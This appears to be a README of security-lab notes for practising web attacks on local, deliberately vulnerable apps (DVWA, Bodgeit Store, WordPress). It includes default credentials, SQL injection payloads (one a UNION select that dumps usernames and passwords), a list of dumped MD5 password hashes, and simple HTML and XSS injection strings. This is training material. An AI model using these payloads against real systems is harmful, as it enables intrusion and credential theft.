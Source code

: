 # Security Lab Notes

## Start Services

### Wordpress 

`http://127.0.0.1:8030`

```
cd wordpress-docker-compose
docker-compose up
```

### Bodgeit Store

`http://localhost:8050`

username: admin

password: password
```
cd bodgeit
docker-compose up
```

### Damn Vulnerable Web Application 
`http://localhost:8040`
``` 
cd web-dvwa
docker-compose up
```


### Wordpress Admin
```
http://127.0.0.1:8030/wp-admin/
```

## Attacks

### SQL Injection
```sql
' or 1='1

%' and 1=0 union select null, concat(user,':',password) from users #
```

### List of passwords
```
5f4dcc3b5aa765d61d8327deb882cf99
e99a18c428cb38d5f260853678922e03
8d3533d75ae2c3966d7e0d4fcc69216b
0d107d09f5bbe40cade3de5c71e9e9b7
5f4dcc3b5aa765d61d8327deb882cf99
```



### HTML Injection
```html
<marquee><h1>HELLO WORLD</h1></marquee>
```

### XSS Injection
```html
<script>alert("Hacked!")</script>
```


## Credits
[Wordpress Docker Compose](https://github.com/nezhar/wordpress-docker-compose)

[Bodgeit Store](https://github.com/psiinon/bodgeit)

[Damn Vulnerable Web Application](http://dvwa.co.uk/)





